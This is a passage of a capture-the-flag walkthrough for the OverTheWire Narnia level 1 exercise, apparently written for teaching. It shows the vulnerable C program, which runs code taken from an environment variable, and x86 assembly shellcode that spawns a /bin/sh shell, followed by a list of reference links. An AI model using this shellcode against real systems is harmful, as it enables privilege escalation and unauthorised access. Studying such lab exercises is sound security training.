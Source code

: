 The second level starts with:
```c
narnia1@melinda:/narnia$ ./narnia1
Give me something to execute at the env-variable EGG

narnia1@melinda:/narnia$ cat narnia1.c
#include <stdio.h>

int main(){
  int (*ret)();

  if(getenv("EGG")==NULL){
    printf("Give me something to execute at the env-variable EGG\n");
    exit(1);
  }

  printf("Trying to execute EGG!\n");
  ret = getenv("EGG");
  ret();

  return 0;
}
```

The program searches for an environment variable **EGG** and then it exits if this variable doesn't exist. If it does, **EGG**'s value is passed as a function. Really secure.



### Step 1: Creating an Environment Variable with our Exploit

The most obvious option for an exploit is to spawn a privileged shell, so that we can read the next level's password.

Let's suppose we don't know that we need to write the exploit in memory language. We could try this:
```sh
narnia1@melinda:/narnia$ export EGG="/bin/ls"
narnia1@melinda:/narnia$ echo $EGG
/bin/ls
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
Segmentation fault
```

Nope.

We actually need to create a hexadecimal command to export to **EGG**. We do this in Assembly and all the information we need is in the [Appendix A] from [Aleph One]'s paper. This allows us to write the following:

[Appendix A]: http://insecure.org/stf/smashStack.html



```sh
narnia1@melinda:/tmp$ vi shellspawn.asm
xor eax, eax        ; make eax equal to 0
push eax            ; pushes null
push 0x68732f2f     ; pushes /sh (//)
push 0x6e69622f     ; pushes /bin
mov ebx, esp        ; passes the first argument
push eax            ; empty third argument
mov edx, esp        ; passes the third argument
push eax            ; empty second argument
mov ecx, esp        ; passes the second argument
mov al, 11          ; execve system call #11
int 0x80            ; makes  an interrupt
```


[inputs with no bounds checking]: http://en.wikipedia.org/wiki/Bounds_checking
[buffer overflow]: http://en.wikipedia.org/wiki/Buffer_overflow
[process's virtual memory]: http://en.wikipedia.org/wiki/Virtual_memory
[physical memory]: http://en.wikipedia.org/wiki/Computer_memory
[virtual memory space]: http://en.wikipedia.org/wiki/Virtual_memory
[direction of which the Stack grows]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[segmentation violation]: http://en.wikipedia.org/wiki/Segmentation_fault
[Heap]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[here are some examples]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[this cheat sheet]: http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP
